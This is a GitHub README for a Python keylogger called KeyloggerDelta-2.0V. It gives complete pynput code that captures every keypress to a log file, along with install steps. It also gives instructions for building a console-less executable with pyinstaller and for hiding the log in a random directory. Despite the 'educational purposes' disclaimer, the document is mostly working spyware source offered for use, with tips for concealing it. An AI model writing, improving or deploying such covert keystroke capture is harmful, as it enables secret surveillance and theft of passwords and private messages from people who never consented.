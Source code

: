 <center><img align="center" src="https://i.ibb.co/kmwkqvg/Key-Logg-PNG.png" alt="KeyLoggPNG" border="0"> </center>

# KeyloggerDelta-2.0V
This is KeyloggerDelta-2.0V. By Python Code with proper comments and an ethical focus. Open Source - MIT License - Contributions and Ask are welcome to improve its functionality or add new features. (^^) / ♡ -XamRyo-

# Ethical and Open-Source:

This repository contains a simple keylogger implemented in Python for **educational purposes** only. It is intended to demonstrate how keylogging works and should be used responsibly. Unauthorized use of this software may violate privacy laws and is strictly prohibited.

## Features
- Captures and logs keypresses.
- Saves keystrokes to a `log.txt` file.
- Stops logging when the `ESC` key is pressed.
- By default, `log.txt` is stored in the same directory where the script is executed. 
- Optionally, the file can be saved to a specific directory or a random location (requires modification).

## Code
```bash
from pynput.keyboard import Key, Listener

# List to store pressed keys
keys = []

def on_press(key):
    """Handles key press events."""
    keys.append(key)
    write_to_log(keys)

def write_to_log(keys):
    """Converts key events to string and writes to a log file."""
    with open('log.txt', 'w') as logfile:
        for key in keys:
            key = str(key).replace("'", "")  # Remove quotes from key string
            logfile.write(key)

def on_release(key):
    """Stops listener when 'Escape' key is pressed."""
    if key == Key.esc:
        return False

# Start the listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
## Requirements
- Python 3.13.1 or any V2>
- Libraries:
  - [pynput](https://pypi.org/project/pynput/): For capturing keyboard input.
  - [pyinstaller](https://pypi.org/project/pyinstaller/): For converting Python scripts into standalone executables.

## Installation
1. Clone this repository:
    ```bash
    git clone https://github.com/<your-username>/ethical-keylogger-python.git
    cd ethical-keylogger-python
    ```

2. Install the required Python packages:
    ```bash
    python -m pip install –upgrade pip.
    pip install pynput
    pip install pyinstaller
    ```

3. Run the script:
    ```bash
    python KeyloggerDelta-2.0V.py
    ```

## Create Executable
Convert the script into an executable file:
```bash
pyinstaller --clean --onefile --windowed .\KeyloggerDelta-2.0V.py
```

## Output Details (NOT OBLIGATORY):
- The script creates a file named `log.txt`, which stores all the captured keystrokes.
- **Default Location**: The `log.txt` file will be created in the same directory as the script or executable or idk your PC XD.
- **Custom/Random Location**: You can modify the script to save the `log.txt` file to a specific directory or generate a random location:
    - **Specific Directory**:
      Replace the `log.txt` path in the script with the desired directory, e.g.:
      ```python
      with open('C:/logs/log.txt', 'w') as logfile:
      ```
    - **Random Directory**:
      Use Python's `os` and `random` libraries to dynamically create a random directory. Example:
      ```python
      import os
      import random
      random_dir = f"C:/temp/logs-{random.randint(1000, 9999)}/"
      os.makedirs(random_dir, exist_ok=True)
      with open(f"{random_dir}log.txt", 'w') as logfile:
      ```
      This is NOT NECESSARY...

## DISCLAIMER AND LICENCE
This project is for ethical use only. The Dev-XamRyo are not responsible for any misuse. Ensure you have explicit permission to log keystrokes on any system where this tool is used ^-^

## Licence
This project is licensed under the MIT License. Ask and support repository :)
